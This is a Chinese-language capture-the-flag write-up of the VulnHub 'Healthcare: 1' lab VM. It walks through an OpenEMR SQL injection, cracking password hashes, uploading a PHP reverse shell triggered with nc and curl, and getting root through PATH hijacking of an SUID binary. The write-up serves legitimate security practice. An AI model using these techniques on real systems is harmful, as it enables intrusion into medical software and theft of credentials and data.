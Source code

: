 # Healthcare: 1

2025.03.02 https://www.vulnhub.com/entry/healthcare-1,522/

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

ftp 目前不能匿名登陆。

web 发现 http://192.168.5.39/robots.txt 访问其中提到的路径都是不存在， gitweb 也是访问不存在。

发现 http://192.168.5.39/openemr/ 版本显示 OpenEMR v4.1.0 ，查找该版本是否有漏洞，存在 sql 注入，使用这个 exp https://www.exploit-db.com/exploits/49742 修改 py 文件中的 url 为 39 主机，执行脚本，在进行 user 用户爆破：

```
admin:3863efef9ee2bfbc51ecdca359c6302bed1389e8
medical:ab24aed5a7c4ad45615cd7e0da816eea39e4895d
```

john 爆破得到明文密码：

```
medical          (medical)
ackbar           (admin)
```

用 admin/ackbar 登陆系统，在左侧菜单 Administration -> Files 处上传 php shell 文件，保存在 /var/www/html/openemr/sites/default/images 中：

```
nc -lvnp 8888
curl http://192.168.5.39/openemr/sites/default/images/8888.php
```

得到了反弹的 shell：

```
bash-4.1$ id
id
uid=479(apache) gid=416(apache) groups=416(apache)
```

先找到了 user flag：

```
bash-4.1$ cat /home/almirant/user.txt
d41d8cd98f00b204e9800998ecf8427e
```

发现 medical 用户，用之前的密码 medical 可以切换到该用户。这里发现了密码文件：

```
[medical@localhost Documents]$ cat Passwords.txt
PCLINUXOS MEDICAL
root-root
medical-medical

OPENEMR
admin-admin
medical-medical
```

但是 root 的密码不是 root，另寻其他路径。

发现一堆 unknow 的 suid 程序，看看哪个可以利用：

```
-rwsr-xr-x 1 root root 11K Jun 11  2011 /usr/sbin/fileshareset (Unknown SUID binary!)
-rwsr-xr-x 1 root root 29K Dec 28  2010 /usr/bin/pumount (Unknown SUID binary!)
-rwsr-xr-x 1 root root 120K Nov 28  2010 /usr/bin/wvdial (Unknown SUID binary!)
-rws--x--x 1 root root 63K Jan 23  2010 /usr/bin/sperl5.10.1 (Unknown SUID binary!)
-rwsr-xr-x 1 root root 362K Jan 18  2011 /usr/bin/gpgsm (Unknown SUID binary!)
-rwsr-sr-x 1 root root 5.7K Jul 29  2020 /usr/bin/healthcheck (Unknown SUID binary!)
-rwsr-xr-x 1 root root 5.8K Sep 22  2011 /usr/bin/Xwrapper (Unknown SUID binary!)
```

发现 healthcheck 调用了一些系统命令：

```
[medical@localhost ~]$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

可以进行命令劫持：

```
cd /tmp
echo '/bin/bash' > ifconfig
chmod +x ifconfig
PATH=/tmp:$PATH
/usr/bin/healthcheck
```

得到了最终的 root flag：

```
[root@localhost tmp]# id
uid=0(root) gid=0(root) groups=0(root),7(lp),19(floppy),22(cdrom),80(cdwriter),81(audio),82(video),83(dialout),100(users),490(polkituser),500(medical),501(fuse)
[root@localhost tmp]# cd /root
[root@localhost root]# ls
Desktop/  Documents/  drakx/  healthcheck*  healthcheck.c  root.txt  sudo.rpm  tmp/
[root@localhost root]# cat root.txt
██    ██  ██████  ██    ██     ████████ ██████  ██ ███████ ██████      ██   ██  █████  ██████  ██████  ███████ ██████  ██ 
 ██  ██  ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██ ██ 
  ████   ██    ██ ██    ██        ██    ██████  ██ █████   ██   ██     ███████ ███████ ██████  ██   ██ █████   ██████  ██ 
   ██    ██    ██ ██    ██        ██    ██   ██ ██ ██      ██   ██     ██   ██ ██   ██ ██   ██ ██   ██ ██      ██   ██    
   ██     ██████   ██████         ██    ██   ██ ██ ███████ ██████      ██   ██ ██   ██ ██   ██ ██████  ███████ ██   ██ ██ 
                                                                                                                          

Thanks for Playing!

Follow me at: http://v1n1v131r4.com


root hash: eaff25eaa9ffc8b62e3dfebf70e83a7b
```
